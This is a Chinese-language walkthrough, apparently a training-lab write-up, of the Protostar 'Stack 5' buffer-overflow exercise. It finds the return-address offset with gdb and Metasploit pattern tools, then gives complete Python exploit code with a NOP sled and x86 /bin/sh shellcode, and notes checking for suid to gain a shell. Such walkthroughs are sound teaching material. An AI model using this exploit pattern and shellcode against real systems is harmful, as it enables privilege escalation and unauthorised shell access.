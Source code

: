 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。

2）用kali metasploit环境下的pattern\__create.rb脚本来生成要填充的标志性的字符串，再用pattern_\_offset来定位漏洞触发的位置。

![](/png/19.png)

3\)用生成的长度为100的字符串进行定位溢出点

![](/png/20.png)

程序在0x63413563处崩溃。用pattern\_offset.py定位溢出位置，找到距离buffer起始位置的偏移。

![](/png/21.png)

在偏移量76处，程序崩溃。这跟手工定位的位置是一样的。

![](/png/22.png)

4）若想用这个stack5二进制文件获取shell,需要确定这个二进制文件是否具有suid权限。可以用find命令实现。

![](/png/23.png)

小结：就是计算填充缓冲区的大小有两种方法：

第一种：手工 （利用gdb 定位eip地址---buff起始地址\(print $esp查看之后buff起始地址）

第二种：借助于metasploit模块里的脚本定位偏移量。

5）漏洞利用代码编写

技巧：利用NOP空操作模块可以确保漏洞利用代码不会失败。因为我们无法始终指向正确的地址，所以利用空指令来指向他们，直到shellcode入口位置。

76个a + eip\(覆盖为要跳转到的地址,可以是下一条指令的地址\) + NOP+shellcode

用python编写exploit.py

1\)导入struct模块

import struct

2\)填充字符a

pad='a'\*76

3\)接下来是漏洞触发 覆盖eip的地方，把eip地址覆盖成shellcode的入口地址，也可以是下一条要执行的指令的地址。原始eip的地址是0xbffffcbc，下一条指令的地址是0xbffffcbc+4= 0xbffffcc0

EIP = struct.pack\("I", 0xbffffcc0\)

紧跟着的是NOP 和 shellcode

shellcode可以采用exploit-db 上一个重新开启一个/bin/sh 终端。

char sc\[\] = 

"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"

"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"

"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

最后形成的利用代码如下：

![](/png/24.png)

执行后：![](/png/25.ong.PNG)

Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)

https://www.exploit-db.com/exploits/13357

